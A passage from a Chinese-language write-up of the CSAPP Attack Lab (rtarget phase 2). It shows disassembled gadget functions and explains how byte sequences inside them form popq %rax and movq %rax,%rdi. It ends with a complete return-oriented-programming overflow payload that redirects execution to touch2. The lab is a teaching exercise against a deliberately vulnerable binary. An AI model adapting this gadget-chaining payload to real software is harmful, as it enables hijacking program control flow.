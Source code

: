       ```cpp
      00000000004019a7 <addval_219>:
        4019a7: 8d 87 51 73 58 90     lea    -0x6fa78caf(%rdi),%eax
        4019ad: c3                    retq  

      00000000004019a0 <addval_273>:
        4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
        4019a6: c3                    retq
      ```

    - 注意到函数`addval_219`中存在字节序列`58 90 c3`。其中`58`是`popq %rax`的机器表示，`90`是`nop`的机器表示，`c3`是`ret`的机器表示。这样的一小段字节序列可以用来将数据从栈上弹到寄存器`%rax`中。

      ```cpp
      4019ab: 58                    popq %rax
      4019ac: 90                    nop
      4019ad: c3                    retq
      ```

    - 同时，函数`addval_273`中存在字节序列`48 89 c7 c3`。其中`48 89 c7`就是`movq %rax, %rdi`的机器表示，`c3`是`ret`的机器表示。所以我们可以利用这个gadget将`%rax`中的数据拷贝到`%rdi`中

      ```cpp
      4019a2: 48 89 c7              movq %rax, %rdi
      4019a5: c3                    retq
      ```

    - 上述的两条`popq rax`与`movq %rax, %rdi` 之间的配合，间接构成了一条`popq %rdi`指令，这样我们就可以设置寄存器`%rdi`，完成目的。实际效果如下：  
      ![Wrong](img/csapp-lab-writeup/rtarget_2_1.png)  

  - 综上所述，我们需要完成
    - 栈溢出跳转至`popq %rax`
    - 跳转至`movq %rax, %rdi`
    - 跳转至`touch2`函数（地址为`0x4017ec`）

    最终输入的数据如下

      ```text
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      ab 19 40 00 00 00 00 00
      fa 97 b9 59 00 00 00 00
      a2 19 40 00 00 00 00 00
      ec 17 40 00 00 00 00 00
      ```
